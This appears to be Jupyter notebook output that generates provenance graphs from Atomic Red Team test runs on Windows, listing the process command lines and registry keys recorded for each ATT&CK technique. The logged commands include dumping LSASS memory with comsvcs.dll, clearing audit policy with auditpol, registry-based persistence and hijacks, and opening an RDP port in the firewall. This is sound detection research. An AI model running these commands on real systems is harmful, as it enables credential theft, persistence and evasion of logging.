91571 : "C:\Windows\system32\tasklist.exe"_/m&C:\Windows\system32\tasklist.exe&tasklist.exe&10280
../graph_others2/T1057_8adf02e8-6e71-4244-886c-98c402857404.png has been generated!
T1037.001_62cfa90fb03a6bc1a6ebcce8a3ea81b7


<Figure size 432x288 with 0 Axes>



 37%|███▋      | 61/165 [01:13<00:46,  2.24it/s]

Number of relations in the graph: 7
230888 : cmd.exe_/C_echo_"echo_Art_"Logon_Script"_atomic_test_was_successful._>>_%USERPROFILE%\desktop\T1037.001-log.txt"_>_%temp%\art.bat_&&_REG.exe_ADD_HKCU\Environment_/v_UserInitMprLogonScript_/t_REG_SZ_/d_"%temp%\art.bat"_/f&C:\Windows\system32\cmd.exe&cmd.exe&7804
32412 : C:\Users\ezk\AppData\Local\Temp\art.bat
542714 : REG.exe__ADD_HKCU\Environment_/v_UserInitMprLogonScript_/t_REG_SZ_/d_"C:\Users\ezk\AppData\Local\Temp\art.bat"_/f&C:\Windows\system32\reg.exe&reg.exe&1580
2566 : HKCU\Environment\UserInitMprLogonScript
../graph_others2/T1037.001_62cfa90fb03a6bc1a6ebcce8a3ea81b7.png has been generated!
T1491_68235976-2404-42a8-9105-68230cfef562


<Figure size 432x288 with 0 Axes>



 38%|███▊      | 62/165 [01:13<00:43,  2.36it/s]

Number of relations in the graph: 7
148716 : powershell.exe_-ExecutionPolicy_Bypass_-C_.\Invoke-MemeKatz.ps1&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5796
101608 : DESKTOP-BA1RQFC.blueteam.com&ec2-18-211-231-38.compute-1.amazonaws.com:https
72404 : C:\Users\ezk\AppData\Local\wallpaper.jpg
../graph_others2/T1491_68235976-2404-42a8-9105-68230cfef562.png has been generated!
T1547.001_0dbdf1a2a87e718a6ac8a8e3415a7fac


<Figure size 432x288 with 0 Axes>



 38%|███▊      | 63/165 [01:14<00:43,  2.32it/s]

Number of relations in the graph: 7
776897 : cmd.exe_/C_reg_ADD_"HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command"_/ve_/d_"calc.exe"_/f&C:\Windows\system32\cmd.exe&cmd.exe&8288
730095 : reg__ADD_"HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command"_/ve_/d_"calc.exe"_/f&C:\Windows\system32\reg.exe&reg.exe&10716
153836 : HKCU\Software\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command
55901 : HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command
494271 : HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command\(Default)
../graph_others2/T1547.001_0dbdf1a2a87e718a6ac8a8e3415a7fac.png has been generated!
T1070.005_1f91076e2be2014cc7b4f1296de02fd6


<Figure size 432x288 with 0 Axes>



 39%|███▉      | 64/165 [01:14<00:44,  2.29it/s]

Number of relations in the graph: 6
258466 : cmd.exe_/C_reg_add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters"_/v_AutoShareServer_/t_REG_DWORD_/d_0_/f_&&_reg_add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters"_/v_AutoShareWks_/t_REG_DWORD_/d_0_/f&C:\Windows\system32\cmd.exe&cmd.exe&7588
473485 : reg__add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters"_/v_AutoShareServer_/t_REG_DWORD_/d_0_/f_&C:\Windows\system32\reg.exe&reg.exe&11120
230448 : reg__add_"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters"_/v_AutoShareWks_/t_REG_DWORD_/d_0_/f&C:\Windows\system32\reg.exe&reg.exe&6240
7289 : HKLM\System\CurrentControlSet\Services\LanmanServer\Parameters\AutoShareServer
426230 : HKLM\System\CurrentControlSet\Services\LanmanServer\Parameters\AutoShareWks
../graph_others2/T1070.005_1f91076e2be2014cc7b4f1296de02fd6.png has been generated!
T1021.001_dd67068b052fa553ad4a0ac7d6a5e

<Figure size 432x288 with 0 Axes>



 39%|███▉      | 65/165 [01:15<00:43,  2.32it/s]

Number of relations in the graph: 6
351062 : cmd.exe_/C_reg_add_"HKLM\System\CurrentControlSet\Control\Terminal_Server\WinStations\RDP-Tcp"_/v_PortNumber_/t_REG_DWORD_/d_4489_-f_&&_netsh_advfirewall_firewall_add_rule_name="RDPPORTLatest-TCP-In"_dir=in_action=allow_protocol=TCP_localport=4489&C:\Windows\system32\cmd.exe&cmd.exe&4984
328761 : reg__add_"HKLM\System\CurrentControlSet\Control\Terminal_Server\WinStations\RDP-Tcp"_/v_PortNumber_/t_REG_DWORD_/d_4489_-f_&C:\Windows\system32\reg.exe&reg.exe&8936
43422 : netsh__advfirewall_firewall_add_rule_name="RDPPORTLatest-TCP-In"_dir=in_action=allow_protocol=TCP_localport=4489&C:\Windows\system32\netsh.exe&netsh.exe&812
788945 : HKLM\System\CurrentControlSet\Control\Terminal_Server\WinStations\RDP-Tcp
212067 : HKLM\System\CurrentControlSet\Control\Terminal_Server\WinStations\RDP-Tcp\PortNumber
../graph_others2/T1021.001_dd67068b052fa553ad4a0ac7d6a5ea89.png has been generated!
T1120_7b9c7afaefa59aab759b49af0d699ac1


<Figure size 432x288 with 0 Axes>



 40%|████      | 66/165 [01:15<00:37,  2.61it/s]

Number of relations in the graph: 6
688174 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Get-WMIObject_Win32_PnPEntity_|_Format-Table_Name,_Description,_Manufacturer_>_$env:TEMP\T1120_collection.txt;_$Space,$Heading,$Break,$Data_=_Get-Content_$env:TEMP\T1120_collection.txt;_@($Heading;_$Break;_$Data_|Sort-Object_-Unique)_|_?_{$_.trim()_-ne_\"\"_}_|Set-Content_$env:TEMP\T1120_collection.txt"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&11228
112170 : C:\Users\ezk\AppData\Local\Temp\T1120_collection.txt
../graph_others2/T1120_7b9c7afaefa59aab759b49af0d699ac1.png has been generated!
T1123_372e6f46fca18e4f1b43209c20ffafa2


<Figure size 432x288 with 0 Axes>



 41%|████      | 67/165 [01:15<00:39,  2.50it/s]

Number of relations in the graph: 6
451902 : cmd.exe_/C_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\microphone\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStart_/t_REG_BINARY_/d_a273b6f07104d601_/f_&&_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\microphone\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStop_/t_REG_BINARY_/d_96ef514b7204d601_/f&C:\Windows\system32\cmd.exe&cmd.exe&10016
791899 : reg__add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\microphone\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStart_/t_REG_BINARY_/d_a273b6f07104d601_/f_&C:\Windows\system32\reg.exe&reg.exe&7352
569311 : reg__add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\microphone\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStop_/t_REG_BINARY_/d_96ef514b7204d601_/f&C:\Windows\system32\reg.exe&reg.exe&103

<Figure size 432x288 with 0 Axes>



 41%|████      | 68/165 [01:16<00:39,  2.46it/s]

Number of relations in the graph: 6
154323 : cmd.exe_/C_reg_add_"HKEY_CURRENT_USER\Software\Microsoft\Office_test\Special\Perf"_/t_REG_SZ_/d_"C:\Path\AtomicRedTeam.dll"&C:\Windows\system32\cmd.exe&cmd.exe&4592
412124 : reg__add_"HKEY_CURRENT_USER\Software\Microsoft\Office_test\Special\Perf"_/t_REG_SZ_/d_"C:\Path\AtomicRedTeam.dll"&C:\Windows\system32\reg.exe&reg.exe&10632
663096 : HKCU\Software\Microsoft\Office_test\Special\Perf
434990 : HKCU\SOFTWARE\Microsoft\Office_test\Special\Perf
581302 : HKCU\SOFTWARE\Microsoft\Office_test\Special\Perf\(Default)
../graph_others2/T1137.002_e2af3c3ab1b0f659c874b8af58c49759.png has been generated!
T1007_9d03c91bdae5a80f17f89c987942b5a8


<Figure size 432x288 with 0 Axes>



 42%|████▏     | 69/165 [01:16<00:39,  2.44it/s]

Number of relations in the graph: 6
573762 : cmd.exe_/C_net.exe_start_>>_C:\Windows\Temp\service-list.txt&C:\Windows\system32\cmd.exe&cmd.exe&9532
675457 : C:\Windows\Temp\service-list.txt
496642 : net.exe__start_&C:\Windows\system32\net.exe&net.exe&9008
643625 : C:\Windows\system32\net1__start_&C:\Windows\system32\net1.exe&net1.exe&10524
../graph_others2/T1007_9d03c91bdae5a80f17f89c987942b5a8.png has been generated!
T1564.004_28862487a99f5f89bc0d68c87396c7e9


<Figure size 432x288 with 0 Axes>



 42%|████▏     | 70/165 [01:17<00:36,  2.61it/s]

Number of relations in the graph: 6
781688 : cmd.exe_/C_echo_cmd_/c_echo_"Shell_code_execution.">_%temp%\T1564.004_has_ads_cmd.txt:adstest.txt_&&_for_/f_"usebackq_delims=?"_%i_in_(%temp%\T1564.004_has_ads_cmd.txt:adstest.txt)_do_%i&C:\Windows\system32\cmd.exe&cmd.exe&5276
476666 : C:\Users\ezk\AppData\Local\Temp\T1564.004_has_ads_cmd.txt:adstest.txt
158008 : cmd__/c_echo_"Shell_code_execution."_&C:\Windows\system32\cmd.exe&cmd.exe&1256
../graph_others2/T1564.004_28862487a99f5f89bc0d68c87396c7e9.png has been generated!
T1562.002_6a8d25d65a7d481dc479f89c62af1e6a


<Figure size 432x288 with 0 Axes>



 43%|████▎     | 71/165 [01:17<00:39,  2.37it/s]

Number of relations in the graph: 6
690103 : cmd.exe_/C_auditpol_/clear_/y_&&_auditpol_/remove_/allusers&C:\Windows\system32\cmd.exe&cmd.exe&9268
732174 : auditpol__/clear_/y_&C:\Windows\system32\auditpol.exe&auditpol.exe&6956
42313 : auditpol__/remove_/allusers&C:\Windows\system32\auditpol.exe&auditpol.exe&7988
670723 : HKLM\System\CurrentControlSet\Control\Lsa\CrashOnAuditFail
587589 : HKLM\System\CurrentControlSet\Control\Lsa\FullPrivilegeAuditing
../graph_others2/T1562.002_6a8d25d65a7d481dc479f89c62af1e6a.png has been generated!
T1547.001_1f15ab22c39a9b6bb2bb0d77276dfcb3


<Figure size 432x288 with 0 Axes>



 44%|████▎     | 72/165 [01:17<00:38,  2.43it/s]

Number of relations in the graph: 6
337338 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$Target_=_\"C:\Windows\System32\calc.exe\";_$ShortcutLocation_=_\"$home\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup\calc_exe.lnk\";_$WScriptShell_=_New-Object_-ComObject_WScript.Shell;_$Create_=_$WScriptShell.CreateShortcut($ShortcutLocation);_$Create.TargetPath_=_$Target;_$Create.Save()"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3064
128713 : "C:\Windows\system32\calc.exe"_&C:\Windows\system32\calc.exe&calc.exe&9420
355881 : C:\Users\ezk\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup\calc_exe.lnk
498531 : C:\Users\ezk\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup\calc_exe.lnk\desktop.ini
../graph_others2/T1547.001_1f15ab22c39a9b6bb2bb0d77276dfcb3.png has been generated!
T1574.011_72249c1e9ffe7d8f30243d838e0791ca


<Figure size 432x288 with 0 Axes>



 44%|████▍     | 73/165 [01:18<00:37,  2.44it/s]

Number of relations in the graph: 6
752866 : cmd.exe_/C_reg.exe_add_"HKLM\SYSTEM\CurrentControlSet\Services\calcservice"_/f_/v_ImagePath_/d_"%windir%\system32\cmd.exe"&C:\Windows\system32\cmd.exe&cmd.exe&10760
126946 : reg.exe__add_"HKLM\SYSTEM\CurrentControlSet\Services\calcservice"_/f_/v_ImagePath_/d_"C:\Windows\system32\cmd.exe"&C:\Windows\system32\reg.exe&reg.exe&3612
793224 : HKLM\SYSTEM\CurrentControlSet\Services\calcservice
328686 : HKLM\System\CurrentControlSet\Services\calcservice
749883 : HKLM\System\CurrentControlSet\Services\calcservice\ImagePath
../graph_others2/T1574.011_72249c1e9ffe7d8f30243d838e0791ca.png has been generated!
T1125_da86001b5081fcf773d8e62f22cf2b00


<Figure size 432x288 with 0 Axes>



 45%|████▍     | 74/165 [01:18<00:37,  2.41it/s]

Number of relations in the graph: 6
353254 : cmd.exe_/C_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\webcam\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStart_/t_REG_BINARY_/d_a273b6f07104d601_/f_&&_reg_add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\webcam\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStop_/t_REG_BINARY_/d_96ef514b7204d601_/f&C:\Windows\system32\cmd.exe&cmd.exe&8344
107410 : reg__add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\webcam\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStart_/t_REG_BINARY_/d_a273b6f07104d601_/f_&C:\Windows\system32\reg.exe&reg.exe&4720
630970 : reg__add_HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\CapabilityAccessManager\ConsentStore\webcam\NonPackaged\C:#Windows#Temp#atomic.exe_/v_LastUsedTimeStop_/t_REG_BINARY_/d_96ef514b7204d601_/f&C:\Windows\system32\reg.exe&reg.exe&8660
691819 : HKLM\S

<Figure size 432x288 with 0 Axes>



 45%|████▌     | 75/165 [01:19<00:45,  1.97it/s]

Number of relations in the graph: 6
31999 : cmd.exe_/C_echo_"Hello_from_the_Windows_Command_Prompt!"_>_"%TEMP%\test.bin"_&_type_"%TEMP%\test.bin"&C:\Windows\system32\cmd.exe&cmd.exe&5520
394432 : C:\Users\ezk\AppData\Local\Temp\test.bin
../graph_others2/T1059.003_f38e58deb7ad20b5538ca40db7b7b4f8.png has been generated!
T1547.010_4593d72a5145e3f494421ac772d37464


<Figure size 432x288 with 0 Axes>



 46%|████▌     | 76/165 [01:20<00:44,  2.00it/s]

Number of relations in the graph: 6
791705 : cmd.exe_/C_reg_add_"hklm\system\currentcontrolset\control\print\monitors\ART"_/v_"Atomic_Red_Team"_/d_"C:\Path\AtomicRedTeam.dll"_/t_REG_SZ&C:\Windows\system32\cmd.exe&cmd.exe&7912
167055 : reg__add_"hklm\system\currentcontrolset\control\print\monitors\ART"_/v_"Atomic_Red_Team"_/d_"C:\Path\AtomicRedTeam.dll"_/t_REG_SZ&C:\Windows\system32\reg.exe&reg.exe&9876
608470 : HKLM\system\currentcontrolset\control\print\monitors\ART
413864 : HKLM\System\CurrentControlSet\control\print\monitors\ART
294649 : HKLM\System\CurrentControlSet\Control\Print\Monitors\ART\Atomic_Red_Team
../graph_others2/T1547.010_4593d72a5145e3f494421ac772d37464.png has been generated!
T1003.001_35d92515122effdd73801c6ac3021da7


<Figure size 432x288 with 0 Axes>



 47%|████▋     | 77/165 [01:20<00:39,  2.22it/s]

Number of relations in the graph: 6
644066 : powershell.exe_-ExecutionPolicy_Bypass_-C_"C:\Windows\System32\rundll32.exe_C:\windows\System32\comsvcs.dll,_MiniDump_(Get-Process_lsass).id_$env:TEMP\lsass-comsvcs.dmp_full"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&732
610145 : "C:\Windows\System32\rundll32.exe"_C:\windows\System32\comsvcs.dll_MiniDump_668_C:\Users\ezk\AppData\Local\Temp\lsass-comsvcs.dmp_full&C:\Windows\System32\rundll32.exe&rundll32.exe&3432
255538 : C:\Users\ezk\AppData\Local\Temp\lsass-comsvcs.dmp
../graph_others2/T1003.001_35d92515122effdd73801c6ac3021da7.png has been generated!
T1003_18f31c311ac208802e88ab8d5af8603e


<Figure size 432x288 with 0 Axes>



 47%|████▋     | 78/165 [01:20<00:35,  2.43it/s]

Number of relations in the graph: 6
380550 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$ps_=_(Get-NetTCPConnection_-LocalPort_3389_-State_Established_-ErrorAction_Ignore);_if($ps){$id_=_$ps[0].OwningProcess}_else_{$id_=_(Get-Process_svchost)[0].Id_};_C:\Windows\System32\rundll32.exe_C:\windows\System32\comsvcs.dll,_MiniDump_$id_$env:TEMP\svchost-exe.dmp_full"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&8276
